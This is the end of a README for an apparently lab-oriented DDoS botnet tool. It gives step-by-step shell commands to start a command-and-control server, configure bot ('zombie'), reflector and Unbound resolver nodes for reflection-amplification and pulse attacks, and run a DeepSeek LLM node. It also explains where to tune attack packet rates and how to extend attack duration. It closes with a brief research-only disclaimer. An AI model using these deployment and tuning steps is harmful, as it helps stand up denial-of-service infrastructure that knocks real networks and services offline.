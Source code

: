 ```bash
cd /root/c2
go run main.go  # Start the C2 server to begin listening
```

### Zombie Node Setup

```bash
# Automatically configured, no manual operation required
cd /root/bot
echo 10.150.0.71 > serverfile/c2.txt  # Add C2 server IP address
echo -e "10.171.0.71\n10.170.0.71" > serverfile/reflector.txt  # Add reflector IP addresses
echo 10.152.0.71 > serverfile/resolver.txt  # Add Unbound server IP address
go run main.go  # Start the service and connect to the C2 server
```

### Reflector Node Setup

```bash
cd /root/reflector
go run main.go  # Start the service
# Enter 1 to begin listening
```

### Unbound Server Setup

```bash
# Used for pulse attacks
service unbound start  # Start the service
```

### DeepSeek Node Setup

```bash
# Pre-install tmux, then enter tmux and run the command to start
tmux
OLLAMA_HOST=0.0.0.0 ollama serve

# After starting, press ctrl b+d to exit, then start the terminal session in another terminal
ollama run deepseek-r1:1.5b
```

### Attack Parameter Adjustment

You can modify the packet sending rate and other attack parameters in `bot/attacker/attack/config.go`.

## 📝 Notes

1. **Reflection Amplification Attack Traffic Limitation**: After receiving packets, reflectors construct and forward packets. Due to CPU performance limitations, reflection amplification attack traffic is much smaller than direct UDP attacks (after the attack stops, reflectors continue processing unhandled packets, extending the attack duration). Adjust the attack rate accordingly.
2. **Network Issues**: If network issues occur during use, try clearing the iptables rules.
3. **Safe Usage**: Use this tool in a secure environment for learning and research purposes only.
